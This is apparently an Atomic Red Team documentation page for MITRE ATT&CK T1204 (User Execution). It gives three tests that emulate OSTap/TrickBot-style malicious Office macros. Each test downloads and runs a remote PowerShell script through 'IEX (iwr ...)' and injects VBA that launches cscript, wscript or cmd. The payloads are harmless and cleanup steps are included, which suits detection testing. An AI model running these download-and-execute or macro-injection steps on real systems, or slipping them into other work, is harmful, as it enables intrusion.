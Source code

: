 # T1204 - User Execution

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1204)

<blockquote>An adversary may rely upon specific actions by a user in order to gain execution. This may be direct code execution, such as when a user opens a malicious executable delivered via [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193) with the icon and apparent extension of a document file. It also may lead to other execution techniques, such as when a user clicks on a link delivered via [Spearphishing Link](https://attack.mitre.org/techniques/T1192) that leads to exploitation of a browser or application vulnerability via [Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl. 

As an example, an adversary may weaponize Windows Shortcut Files (.lnk) to bait a user into clicking to execute the
malicious payload.(Citation: Proofpoint TA505 June 2018) A malicious .lnk file may
contain [PowerShell](https://attack.mitre.org/techniques/T1086) commands. Payloads may be included into the .lnk file
itself, or be downloaded from a remote server.(Citation: FireEye APT29 Nov 2018)(Citation: PWC Cloud Hopper Technical
Annex April 2017)

While User Execution frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such
as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on
it.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Style Macro Execution](#atomic-test-1---ostap-style-macro-execution)

- [Atomic Test #2 - Maldoc choice flags command execution](#atomic-test-2---maldoc-choice-flags-command-execution)

- [Atomic Test #3 - OSTAP JS version](#atomic-test-3---ostap-js-version)

<br/>

## Atomic Test #1 - OSTap Style Macro Execution

This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. The .jse file in turn launches
wscript.exe.
Execution is handled
by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and
execute VBA code into Excel or Word documents.

This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns
References:
https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | Path for the macro to write out the "malicious" .jse file | String | C:&#92;Users&#92;Public&#92;art.jse|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:

```powershell
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```

#### Dependencies:  Run with `powershell`!

##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys

##### Check Prereq Commands:

```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```

##### Get Prereq Commands:

```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```

<br/>
<br/>

## Atomic Test #2 - Maldoc choice flags command execution

This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders
Execution is handled
by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and
execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```

#### Dependencies:  Run with `powershell`!

##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys

##### Check Prereq Commands:

```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```

##### Get Prereq Commands:

```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```

<br/>
<br/>

## Atomic Test #3 - OSTAP JS version

Malicious JavaScript executing CMD which spaws wscript.exe //e:jscript
Execution is handled
by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and
execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER&#92;SOFTWARE&#92;Microsoft&#92;Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | jse file to execute with wscript | Path | C:&#92;Users&#92;Public&#92;art.jse|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:

```powershell
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```

#### Dependencies:  Run with `powershell`!

##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys

##### Check Prereq Commands:

```powershell
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```

##### Get Prereq Commands:

```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```

<br/>
